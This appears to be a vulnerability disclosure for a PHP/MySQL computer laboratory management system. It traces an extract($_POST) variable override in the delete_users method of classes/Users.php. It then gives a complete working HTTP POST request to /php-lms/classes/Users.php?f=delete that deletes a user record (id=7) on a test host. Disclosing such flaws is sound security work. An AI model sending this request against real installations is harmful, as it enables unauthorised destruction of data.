






# Computer Laboratory Management System using PHP and MySQL - Variable Override

In *classes/Users.php*, there is an `extract($_POST)` present within the `delete_users` method.



The `delete_users` method is a method of the `Users` class.



In the User.php file, `$users = new users();` instantiates the Users class, and through a GET request, control over calling the `delete_users` method can be gained.



Viewing the users database



Construct a payload to delete the data with id=7.

```http
POST /php-lms/classes/Users.php?f=delete HTTP/1.1
Host: 192.168.3.182
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=me1t3n4nemvaf39r7udbqlal8v; XDEBUG_SESSION=12980
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

id=7
```



Refresh the database, the test data is deleted.


